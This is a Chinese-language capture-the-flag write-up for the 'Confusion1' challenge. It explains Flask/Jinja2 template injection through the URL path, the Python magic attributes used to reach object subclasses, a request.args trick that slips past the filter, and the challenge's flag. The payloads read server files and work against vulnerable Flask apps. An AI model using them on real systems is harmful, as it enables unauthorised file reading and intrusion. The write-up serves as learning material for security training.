

# Confusion1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=7100b512-f0d1-4b55-a39f-ba9c0c800b57_2)

这题又是模版注入，就是不太明显，我想不到，还是做的题太少了。

网站还是很简陋，简陋到点Login和Register都会报错的程度。最奇怪的的是最左边那个灰色的链接可以点，然后会把你带到一个和题目完全无关的网站去。检查当前网页的元素会发现首页图片的名字“PythonVsPhp”。

没啥思路，随便点点，发现报错页面的源代码中有注释。

- <\!--Flag @ /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt--> <\!--Salt @ /opt/salt_b420e8cfb8862548e68459ae1d37a1d5.txt-->

莫名其妙告诉了我们flag的路径，难不成又是任意文件读取这类的东西？robots.txt没有发现，phps也没法看。这时想到python，你说python在ctf里比较常见的考点是啥呢？Flask模版注入？

- http://61.147.171.105:51070/{{2*2}}

> The requested URL /4 was not found on this server.

文件名是个注入点。我不太懂模版注入，所以去网上找了经典的flask注入payload。

- {{''.\__class__.\__mro__\[2].\__subclasses__()}}

然后被过滤了。上次在shrine里用的{{url_for.\__globals__}}也不能用，看来要想办法绕掉常用的__class__等内容。想绕过就要先理解上面那个payload的原理。

- ### Python魔术方法
- > \__class__  返回类型所属的对象 \__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 \__base__   返回该对象所继承的基 __base__和__mro__都是用来寻找基类的 \__subclasses__   每个类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表 \__init__  类的初始化方法 \__globals__  对包含函数全局变量的字典的引用 \__builtins__ builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以可以直接调用引用的模块

- ### 获取基类
- > \[].\__class__.\__base__ ''.\__class__.\__mro__\[2] ().\__class__.\__base__ {}.\__class__.\__base__ request.\__class__.\__mro__\[8] 　　//针对jinjia2/flask为\[9] \[].\__class__.\__bases__\[0]

- ### 获取基类的子类
- > [].\__class__.\__base__.\__subclasses__()

由上可得 {{''.\__class__.\__mro__\[2].\__subclasses__()}} 的作用是寻找字符串''的所属对象的位于第二个索引的基类的子类列表。在python中，所有数据类型的父类都是object，所以__mro__\[2]获取的就是object（python支持多继承所以一个类型可能会有很多父类，这里正好索引2是object）。最后__subclasses__()找子类，注意__subclasses__()是个方法。详情请见[这里](https://blog.csdn.net/xiao__1bai/article/details/115672392)。

了解了基本的魔术方法后就能正式想想怎么绕过了，这里可以利用flask的全局对象request来实现。（全局对我们来说就是方便调用）

- {{''\[request.args.a][request.args.b][2]\[request.args.c]()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')\[request.args.d]()}}?a=\__class__&b=\__mro__&c=\__subclasses__&d=read

request顾名思义，就是flask内部用于处理请求的对象。request.args用于获取get方法的参数，用法就是request.args.参数名。注意服务器收到的url内容只有 {{''\[request.args.a][request.args.b][2]\[request.args.c]()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')\[request.args.d]()}} 这部分，后面get传参的内容是不会被送到url中的，也就不会被过滤。如果把request去掉那这个payload就很清楚了。

- {{''.\__class__.\__mro__\[2]\__subclasses__()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt','read')\()}}

其实就是找到文件并读取（可能不准确但是原理差不多了）。''.\__class__.\__mro__\[2]\__subclasses__()\[40]为<type 'file'>。

- ### Flag
- > cyberpeace{9d6a2aa7526b1f51bdbeed194730c73c}

